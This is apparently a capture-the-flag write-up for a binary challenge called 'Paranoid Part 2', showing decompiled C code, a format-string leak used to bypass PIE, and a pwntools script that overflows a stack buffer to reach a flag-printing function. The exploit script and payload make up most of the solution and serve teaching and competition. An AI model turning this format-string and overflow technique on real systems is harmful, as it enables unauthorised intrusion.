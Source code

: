 +++
title = "Paranoid Part 2"
date = 2024-07-02
authors = ["Abhinav I S"]
+++

first, we will run checksec on the binary

```bash
checksec --file=challenge
```
<br>
{{ img(id="image1.png", alt="Alt Text", class="textCenter") }}

Opening the binary in a decompiler (Ghidra) and looking at main function gives 

```c

void main(void)

{
  undefined local_68 [48];
  char local_38 [48];
  
  banner();
  puts(
      "\nHey its Anonymous again...Someone leaked my temporary location to the FBI and they sent an  agent to the location I provided them"
      );
  puts("\nIt\'s no longer safe to provide you the address of our temporary meeting point.");
  puts("\nI\'m gonna have to hide and lay low for a while...");
  puts("\nTry reaching out to me after things have settled down");
  printf("\nGive me a name so that I can identify you if and when you contact me: ");
  fflush(stdout);
  read(0,local_38,0x23);
  printf("\nAlright Mr. ");
  printf(local_38);
  printf(
        "\nI\'ll look forward to doing business with you...Till then, is there anything that you wou ld like to convey? "
        );
  fflush(stdout);
  read(0,local_68,0x110);
  return;
}
```
Analyzing other functions,
there seems to be a suspicious function safe_house

```c

void safe_house(void)

{
  char local_98 [136];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts(
        "\nThere is no \'flag.txt\' present in this directory. Please create sample flag for local e xploitation."
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_98,0x80,local_10);
  printf(local_98);
  putchar(10);
  fflush(stdout);
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

clearly, we have to return to this function

there is a printf and two read function calls.
We can exploit a format string vulnereability to leak addresses from the stack, and calculate address of safe_house, since PIE is enabled

first step is to figure out the offset for the printf format string to print out addresses  in the code section

starting the binary in gdb, and disassembling main, we find that addresses likely in the text section start with 0x5555555

<br>
{{ img(id="image2.png", alt="Alt Text", class="textCenter") }}

setting a break point at the first printf, and printing the stack

<br>
{{ img(id="image3.png", alt="Alt Text", class="textCenter") }}

we can see that %21$lx prints out the address of main

Next, we need to calculate the address of safe_house
from ghidra, we can see that the address of safe_house is 0x010125a,
and address of main is 0x0101316

So, address of win is main - 188

We can create our solve script, overflowing the buffer, RBP, into the return address

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./challenge")

context.binary = exe
# context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("rvcechalls.xyz", 27250)

    return r


def main():
    r = conn()
    r.recv()
    r.sendline(b"%21$lx")
    data = r.recv()
    lines = data.split(b"\n")
    main = lines[1].split(b".")[1].lstrip(b" ")
    print(main)
    win = int(main,16) - 188
    print(hex(win))
    payload = b"A"*0x68 + p64(win+1)
    r.sendline(payload)
    print(r.recv())
    r.interactive()




if __name__ == "__main__":
    main()
```

giving the flag

```
flag{Mr_S0-c4ll3d_4n0nym0u5_ha5_l04d5ss_0F_53cUr1Ty_155u35_1907e55351f}
```

